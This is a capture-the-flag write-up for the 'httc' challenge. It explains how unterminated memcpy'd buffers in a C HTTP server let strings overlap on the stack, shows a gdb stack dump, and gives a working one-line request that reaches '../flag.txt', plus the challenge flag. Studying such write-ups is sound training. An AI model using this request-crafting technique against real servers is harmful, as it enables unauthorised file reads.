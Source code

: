 # httc (190 points)

## The Problem:
  You're given a vulnerable http server written in C. Get the flag.
  
## The Process:

For this problem, I decided to ask one of my teammates for help (I know nothing about http headers). When analyzing the source code for flaws, we found one minor bug that ended up being a major one.

```C
108:    char key[51], value[51], method[51], url[51], http_version[51];
109:
110:    header->headers = malloc(sizeof(http_header_t*));
111:    header->header_c = 0;
112:
113:    line = get_line(true);
114:
115:    if(line == NULL || sscanf(line, "%33[^ ] %50[^ ] %8[^ ]", method, url, http_version) != 3) {
116:        return_400();
117:    }
118:    memcpy(header->http_version, http_version, 8);
119:    memcpy(header->method, method, 33);
120:    memcpy(header->url, url, 50);
121:    header->error_callback = &exit;
    
```

In line 108, we saw that every single variable, regardless of size, was declared to 51 bytes in length. The largest actual size in any of the structs was 50. This, in combination with the unfortunate use of `memcpy()` in lines 118-120 enables us to have unterminated strings. Bad programming.

From here, we also observed that the `clean_url()` function "sanitized" the original URL and then copied it. In addition to this, because `process_reques()` and `get_header()` occupy the same stack frame, there was a bit of exploitable overlap in the variables.

using gdb, we set a breakpoint right before the `fopen()` call to see what kind of damage we could do.

```
gdb-peda$ b*0x56556240
Breakpoint 1 at 0x56556240
gdb-peda$ r
Starting program: /vagrant/Downloads/server_497d5536972b10a781449f7295b648f8dbc9b9c147fc8cd3b94fc45818a80d8e
GET /./././././././././././././././././././././././.// HTTP/1.1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

---snip snip---


gdb-peda$ x /40wx $esp

0xffffd594:	0x565567ec	0x00000032	0x5655606e	0x00000000
0xffffd5a4:	0xf7fc9000	0xf7fc9ac0	0x2fe8fd74	0x656d6f68
0xffffd5b4:	0x7070612f	0x6265772f	0x2f2e2f2f	0x2f2e2f2e
0xffffd5c4:	0x2f2e2f2e	0x2f2e2f2e	0x2f2e2f2e	0x2f2e2f2e
0xffffd5d4:	0x2f2e2f2e	0x2f2e2f2e	0x2f2e2f2e	0x2f2e2f2e
0xffffd5e4:	0x2f2e2f2e	0x2f2e2f2e	0x422f2f2e	0x42424242
0xffffd5f4:	0x42424242	0x42424242	0x00424242	0x41000ab4
0xffffd604:	0x41414141	0x41414141	0x41414141	0x00414141
0xffffd614:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd624:	0x41414141	0x41414141	0x56559011	0x56558000
```

As you can see above, the strings mash together, creating this in memory:
```
"home/app/web//././././././././././././././././././././././././/BBBBBBBBBBBBBBBB"
```

From here, all we have to do is change the last few "B"s with our payload.

```
python -c 'print """GET /./././././././././././././././././././././././.// HTTP/1.1\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB/../flag.txt"""' | ./server_497d5536972b10a781449f7295b648f8dbc9b9c147fc8cd3b94fc45818a80d8e
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Server: httc/1.0 Ubuntu/14.04.2

fl4g{Th1s_1s_my_l0c4l_fl4g}
```

Now all we have to do is run it on the real server, and we get the flag!

##Flag:

```tjctf{tfw_n0_st@ck_pr0t3ct1on_lma0}```